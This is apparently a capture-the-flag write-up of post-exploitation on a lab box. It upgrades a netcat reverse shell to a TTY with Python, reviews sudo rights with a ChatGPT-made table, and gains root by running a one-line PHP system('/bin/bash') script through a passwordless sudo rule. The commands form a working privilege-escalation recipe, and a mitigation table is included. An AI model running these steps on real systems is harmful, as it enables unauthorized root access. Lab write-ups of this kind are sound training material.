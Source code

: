 
After establishing our reverse shell with netcat from metasploit, we need to cement our foothold. 

Upgrade our shell to one that supports TTY

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command fails as the system doesn't have python2 so we execute the command below

```shell-session
which python3
```

we have Python3 avaliable and from there our netcat session has escalated

```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 

![[Pasted image 20241007215316.png]]

we can now run commands like sudo -l to determine permissions
![[Pasted image 20241007220720.png]]

Running these permissions through ChatGPT we can get a more human readable threat assessment.

| **Item**                       | **Details**                                                        |
|---------------------------------|--------------------------------------------------------------------|
| **Command**                     | `sudo /usr/bin/php`                                                |
| **User**                        | `www-data`                                                         |
| **Privileges**                  | Can run **PHP** as **any user** without needing a password (`NOPASSWD`) |

### Security Risks

| **Risk**                        | **Description**                                                    |
|---------------------------------|--------------------------------------------------------------------|
| **Full Root Access**            | PHP can execute system commands (e.g., `system()`, `exec()`), allowing full root control. |
| **Privilege Escalation**        | Attackers can: <ul><li>Read/modify sensitive files (e.g., `/etc/shadow`).</li><li>Open a root shell via PHP.</li></ul> |
| **Ease of Exploitation**        | No password is required to run PHP scripts as root, simplifying exploitation. |
| **Web Exploits**                | If `www-data` is tied to a web server, vulnerable web apps can be used to escalate privileges to root. |

### Exploit Example

| **PHP Script**                 | **Effect**                                  |
|--------------------------------|---------------------------------------------|
| ```php <?php system("/bin/bash"); ?> ``` | Spawns a **root shell** when run via `sudo /usr/bin/php /path/to/script.php`. |

### Mitigation

| **Recommendation**              | **Action**                                                         |
|---------------------------------|--------------------------------------------------------------------|
| **Remove NOPASSWD**             | Require a password for `sudo` or restrict specific PHP commands.   |
| **Monitor www-data**            | Track activity, especially sudo actions.                           |
| **Harden Web Applications**     | Ensure no remote code execution vulnerabilities in web apps.       |

From this we can execute a simple 2 step script as below

```shell script
echo '<?php system("/bin/bash"); ?>' > /tmp/root_shell.php
sudo /usr/bin/php /tmp/root_shell.php
```

![[Pasted image 20241007221231.png]]

We have now established ourselves as the root user and capture the final flag.

![[Pasted image 20241007221416.png]]
